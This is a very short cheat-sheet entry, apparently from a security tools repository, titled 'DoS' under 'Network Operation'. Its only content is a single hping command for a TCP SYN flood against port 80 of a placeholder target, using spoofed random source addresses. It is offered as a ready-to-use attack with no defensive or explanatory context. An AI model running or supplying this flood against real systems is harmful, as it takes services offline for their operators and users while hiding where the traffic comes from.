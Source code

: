 title: DoS
category: Network Operation
---
#### TCP SYN Flood

```
hping -i u1 --rand-source -S -p 80 <target>
```
